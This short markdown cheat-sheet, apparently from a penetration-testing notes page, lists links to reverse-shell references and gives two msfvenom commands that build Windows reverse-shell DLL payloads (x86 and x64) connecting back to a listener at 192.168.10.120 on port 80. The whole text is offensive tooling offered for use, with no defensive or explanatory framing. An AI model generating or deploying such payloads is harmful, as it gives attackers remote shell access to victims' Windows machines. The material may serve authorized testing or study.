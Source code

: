 ### :open_file_folder: Reference resources

https://www.revshells.com/

https://book.hacktricks.xyz/shells/shells/msfvenom

### :open_file_folder: Windows

x86(try first)

```
msfvenom -p windows/shell_reverse_tcp -f dll -o xxx.dll LHOST=192.168.10.120 LPORT=80
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o xxx.dll LHOST=192.168.10.120 LPORT=80
```
